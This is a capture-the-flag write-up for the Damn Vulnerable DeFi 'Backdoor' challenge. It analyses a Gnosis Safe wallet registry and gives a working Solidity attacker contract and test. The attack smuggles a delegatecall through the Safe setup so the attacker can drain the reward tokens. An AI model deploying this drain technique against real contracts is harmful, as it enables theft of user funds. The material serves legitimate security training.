 #+AUTHOR: Francesco Cannarozzo
* Backdoor
** Statement
   A registry of *Gnosis safe wallets* keeps a list of beneficiaries: upon registration of a
   wallet by these beneficiaries, 10 DVT tokens are awarded.
   attacker must take them all in a single transaction.
** Files
*** WalletRegistry.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";

/**
 * @title WalletRegistry
 * @notice A registry for Gnosis Safe wallets.
           When known beneficiaries deploy and register their wallets, the registry sends some Damn Valuable Tokens to the wallet.
 * @dev The registry has embedded verifications to ensure only legitimate Gnosis Safe wallets are stored.
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract WalletRegistry is IProxyCreationCallback, Ownable {
    
    uint256 private constant MAX_OWNERS = 1;
    uint256 private constant MAX_THRESHOLD = 1;
    uint256 private constant TOKEN_PAYMENT = 10 ether; // 10 * 10 ** 18
    
    address public immutable masterCopy;
    address public immutable walletFactory;
    IERC20 public immutable token;

    mapping (address => bool) public beneficiaries;

    // owner => wallet
    mapping (address => address) public wallets;

    constructor(
        address masterCopyAddress,
        address walletFactoryAddress, 
        address tokenAddress,
        address[] memory initialBeneficiaries
    ) {
        require(masterCopyAddress != address(0));
        require(walletFactoryAddress != address(0));

        masterCopy = masterCopyAddress;
        walletFactory = walletFactoryAddress;
        token = IERC20(tokenAddress);

        for (uint256 i = 0; i < initialBeneficiaries.length; i++) {
            addBeneficiary(initialBeneficiaries[i]);
        }
    }

    function addBeneficiary(address beneficiary) public onlyOwner {
        beneficiaries[beneficiary] = true;
    }

    function _removeBeneficiary(address beneficiary) private {
        beneficiaries[beneficiary] = false;
    }

    /**
     @notice Function executed when user creates a Gnosis Safe wallet via GnosisSafeProxyFactory::createProxyWithCallback
             setting the registry's address as the callback.
     */
    function proxyCreated(
        GnosisSafeProxy proxy,
        address singleton,
        bytes calldata initializer,
        uint256
    ) external override {
        // Make sure we have enough DVT to pay
        require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");

        address payable walletAddress = payable(proxy);

        // Ensure correct factory and master copy
        require(msg.sender == walletFactory, "Caller must be factory");
        require(singleton == masterCopy, "Fake mastercopy used");
        
        // Ensure initial calldata was a call to `GnosisSafe::setup`
        require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");

        // Ensure wallet initialization is the expected
        require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
        require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");       

        // Ensure the owner is a registered beneficiary
        address walletOwner = GnosisSafe(walletAddress).getOwners()[0];

        require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");

        // Remove owner as beneficiary
        _removeBeneficiary(walletOwner);

        // Register the wallet under the owner's address
        wallets[walletOwner] = walletAddress;

        // Pay tokens to the newly created wallet
        token.transfer(walletAddress, TOKEN_PAYMENT);        
    }
}

     #+END_SRC
**** BreakDown
***** State
      the contract keeps a number of fairly self explanatory constants: *MAX_OWNERS*, *MAX_THRESHOLD*, and
      *TOKEN_PAYMENT*. references are kept to *masterCopy*, i.e. the gnosis safe instance, and
      the gnosis factory *walletFactory*. we also maintain a reference to a IERC20 token.
      
      finally, a mapping of addresses onto booleans is kept to keep track of *beneficiaries*,
      while a mapping of owner addresses to wallet addresses is kept as *wallets*.
***** Constructor
      the constructor requires a few addresses to be passed in:
      that of the master copy and of the walletFactory,
      which are both required to be different than the zero address,
      the token address, and a list of addresses belonging to initial beneficiaries,
      which are then added through the corresponding method.
***** addBeneficiary
      only accepting calls from *Owner*, takes in an address and sets the corresponding
      *beneficiaries[address]* to true.
***** _removeBeneficiary
      private method, takes in an address and sets the corresponding
      *beneficiaries[address]* to false.
***** proxyCreated
      Function called at the creation of a *GnosisSafeWallet*.
      takes as argument the *GnosisSafeProxy* /proxy/, an address /singleton/,
      required to be equal to *masterCopy*, some *bytes* /initializer/, required to have
      its first 4 bytes equal to the *Gnosis.setup* method's selector,
      and a mysterious unnamed uint256.

      after performing a number of checks, including that of *msg.sender* to be *walletFactory*,
      and that the walletOwner is indeed one of the beneficiaries,
      issues the wallet that reward.
** Exploit
   We ought to work our way up the call chain here, see if we can execute our own code.
   we see how *ProxyCreated()*  accepts any number of bytes as its *initializer* parameter.
   this method, declared in *IproxyCreationCallback*, will be called on proxy creation:
   we can use *GnosisSafeProxyFactory.createProxyWithCallback()*. This way, we create a *GnosisSafeProxy* pointing to our singleton.
   The function encoded in *initializer* will then be called upon the proxy: in order to respect registry's requirements,
   that has to be *GnosisSafe.setup*. In turn, this will call upon ModuleManager, which in turn calls its superclass function *execute*.

   execute does something very useful to us: it performs a delegatecall, effectively allowing us to call our own function,
   passed to *setup()* in its *data* parameter, and execute them in the proxy's context.
   By approving *attacker* for the wallet's tokens, we can succesfully drain every one of them.

 #+BEGIN_SRC solidity
 pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "contracts/backdoor/WalletRegistry.sol";

contract BackdoorAttacker {
    GnosisSafeProxyFactory factory;
    address masterCopy;
    address registry;


    constructor(
        address _factory, address _masterCopy, address _registry){
            factory = GnosisSafeProxyFactory(_factory);
            masterCopy = _masterCopy;
            registry = _registry;
        }


    function stealin(address recipient, address _token) external{
        IERC20(_token).approve(recipient, 10 ether);
    }

    function attack(address[] calldata victims, address attacker, address token) external payable{

        bytes memory poison = abi.encodeWithSignature("stealin(address,address)", address(this), token );

        for(uint8 i=0 ; i<victims.length ; i++) {

            address[] memory _victims = new address[](1);
            _victims[0] = victims[i];



            bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",
                                                                _victims, 
                                                                1, 
                                                                address(this), 
                                                                poison, 
                                                                address(0), 
                                                                address(0), 
                                                                0, 
                                                                address(0));
            GnosisSafeProxy proxy = factory.createProxyWithCallback(masterCopy, initializer, 0, IProxyCreationCallback(registry));

        IERC20(token).transferFrom(address(proxy), attacker, 10 ether);            

    }


    }
        receive() external payable {}

}
 #+END_SRC

and we can run the exploit just fine.

#+BEGIN_SRC javascript
   it('Exploit', async function () {

        const attackerFactory = await ethers.getContractFactory('BackdoorAttacker', attacker);
        const attackerContract = await attackerFactory.deploy(
            this.walletFactory.address,
            this.masterCopy.address,
            this.walletRegistry.address
        )
        await attackerContract.connect(attacker).attack(users, attacker.address, this.token.address)
    });
#+END_SRC

